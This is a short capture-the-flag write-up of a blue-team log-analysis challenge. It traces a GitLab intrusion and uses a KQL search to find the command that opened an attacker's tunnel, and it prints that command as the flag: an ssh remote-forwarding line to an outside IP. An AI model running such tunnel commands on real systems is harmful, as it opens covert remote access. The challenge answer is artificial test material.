

# Blue's Clues 7/8: Tunnel
> Okay. Let's recap. The web server somehow got exploited, and a webshell was uploaded. The webshell allowed for commands to be executed. A reverse-shell was launched. A gitlab user was created. The gitlab user created a malicious pipeline.

> Using this search in analytics>discover: host.hostname :"Rezifp-GitLab-Server" and gitlab.meta.remote_ip:10.0.0.5 and gitlab.ua:* And going into the "field statistics" tab, we can see that there are two user agents: curl and firefox, that made queries to our gitlab from the web server. However, firefox is not installed on the web server. There must be a tunnel/socks proxy that was created. Find the command line that created that tunnel.

> Flag format: <commandline>

> Example: ./tunnelcreator create tunnel --awesome

## About the Challenge
We need to find the command that created the tunnel/socks proxy

## How to Solve?
Im using this KQL syntax because I want to find the command that related to SSH and the `-R` option is used to set up a reverse port forwarding, also known as remote port forwarding. It allows connections from the remote SSH server to be forwarded to a local machine or a different machine on the client's network.

```
"ssh" and "-R"
```

And then find `proccess.command_line` in the `Search Field` form



```
ssh -i /tmp/key -r 8080 rezifp-admin@158.69.62.65
```